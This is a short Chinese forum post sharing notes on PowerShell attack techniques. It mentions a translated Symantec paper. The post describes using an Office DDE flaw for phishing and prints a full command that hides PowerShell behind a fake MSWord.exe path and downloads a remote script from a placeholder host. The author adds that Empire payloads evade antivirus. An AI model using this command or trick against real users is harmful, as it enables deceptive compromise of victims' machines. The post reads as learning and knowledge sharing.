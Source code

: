 #powershell攻击方式的学习

tags: #科普#, 

powershell攻击方式的学习

前几天office出了个漏洞，可以直接使用文档中的（DDE）协议来执行命令，该方法可以不适用宏就能执行系统命令，对钓鱼攻击帮助很大，因为现在很多网关型设备，例如防火墙、邮件网关的会过滤或者检测宏，利用DDE协议可以直接调用powershell执行反弹shell命令，网上有很多复现方法了，我就不在这里去详说了，仅贴一个在茄牛那里看到的技巧。

"c:\\Programs\\Microsoft\\office\\MSWord.exe\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://XXXXXXX/power.ps1');powershell -e $e # " "for security reasons"

这个技巧更具有迷惑性，会在弹出的对话框中显示的是调用MSWord.exe，这个是很容易让人中招的。
通过Empire这个powershell攻击神器生成payload，然后进行监听。这种钓鱼方式对一般用户成功率很大，并且AV暂时无法检测。

后来继续延伸学习powershell的攻击方式，我把弦哥之前在圈中发的赛门铁克关于powershell的研究paper仔细读了一遍，姿势确实长进不少，文档作者写的非常详细，因为我那初中水平的英语读来实在压力太大，只能一句句去翻译然后用中文写下来再看，这样效果很好[囧]，现在把我简单翻译过的文档分享给像我这样的小白，我仅翻译了其中攻击阶段(执行脚本、横向渗透、持久控制)、混淆两个主要是攻击技巧的段落。但是也花了我很多时间，主要英语太水。
看完后你会对powershell攻击方式有个很全面的了解。另外想说看英文资料真的感觉技术介绍全面很多。

[powershell 攻击中的应用.pdf](/assets/15552828285412_powershell-攻击中的应用.pdf)

[comment]: <> (topic_id:51118225445814)

[comment]: <> (create_time:2017-10-22T15:10:44.590+0800)

[comment]: <> (topic_type:talk)

[comment]: <> (owner:158821818412_ke)

